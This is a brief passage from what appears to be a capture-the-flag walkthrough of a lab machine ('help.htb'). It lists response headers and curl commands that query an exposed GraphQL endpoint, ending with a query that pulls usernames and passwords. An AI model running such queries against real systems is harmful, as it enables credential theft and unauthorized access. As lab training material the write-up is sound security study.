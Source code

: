 # GraphQL

Port 3000

X-Powered-By: Express

```
Response headers (155 B)

HTTP/1.1 304 Not Modified
X-Powered-By: Express
ETag: W/"51-gr8XZ5dns fHNaB2KgX/Gxm9yVZU
Date: Thu, 09 May 2019 02:41:53 GMT
Connection: keep-alive
```

{% code overflow="wrap" %}
```bash
curl -s -G http://10.10.10.121:3000/graphql --data-urlencode "query={user}" | jq
```
{% endcode %}

{% code overflow="wrap" %}
```bash
curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username} }' | jq
```
{% endcode %}

{% code overflow="wrap" %}
```bash
curl -s -G http://help.htb:3000/graphql --data-urlencode 'query={user {username,password} }' | jq
```
{% endcode %}
